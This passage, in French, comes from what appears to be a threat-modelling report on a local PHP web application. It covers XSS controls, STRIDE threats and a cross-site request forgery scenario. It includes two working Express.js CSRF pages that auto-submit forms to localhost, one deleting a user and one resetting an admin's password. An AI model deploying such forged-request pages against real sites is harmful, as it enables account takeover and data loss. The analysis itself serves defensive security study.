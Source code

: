 - **Contrôles** :

  - Assainir les inputs utilisateur pour éviter que des balises HTML soient interprétables
  - Passer le cookie *PHPSESSID* en *HttpOnly* pour empêcher sa récupération via `document.cookie` 

  

- **STRIDE** :

  Dans ce scénario, nous pouvons identifier les menaces suivantes :

  - Spoofing
  - Tampering
  - Repudiation (supprimer un message envoyé, depuis la boîte mail du destinataire)
  - Information Disclosure
  - Elevation of privilege
  
  

#### 5. Attaque Cross-Site Request Forgery

- **Impact sur l'entreprise** : élevé (perte de confidentialité, d'intégrité et d'authenticité)

- **Sources de la menace** : employé mécontent, malin

- **Motivation** : sabotage, divulgation d'information, usurpation d'identité, curiosité

- **Actif(s) visé(s)** : compte d'un autre employé

- **Scénario d'attaque** :

  - Un employé malicieux pourrait envoyer le lien de son site pirate à un administrateur **authentifié** afin qu'il exécute une action involontaire lorsqu'il se connecte à celui-ci (ajouter/supprimer/modifier un utilisateur par ex.).

    Exemple de site malicieux :

    ```js
    app.get('/', function (req, res) {
        res.send(`
        <body onload="document.forms[0].submit()">
        <form action="http://localhost:8081/index.php?action=delete_user&no=27" method="POST"></form>`);
    });
    ```

  - Un employé malicieux pourrait également voler le compte d'un administrateur (ou d'un collaborateur) en le forçant à changer de mot de passe involontairement pour pouvoir ensuite se connecter à son compte avec ce nouveau mot de passe défini.

    Exemple de site malicieux :

    ```js
    app.get('/', function (req, res) {
        res.send(`
        <body onload="document.forms[0].submit()">
        <form action="http://localhost:8081/index.php?action=update_user&no=1" method="POST">
            <input type="hidden" name="role" value="1"/>
            <input type="hidden" name="password" value="Pass1234"/>
            <input type="hidden" name="confpassword" value="Pass1234"/>
            <input type="hidden" name="valid" value="on"/>
        </form>`);
    });
    ```
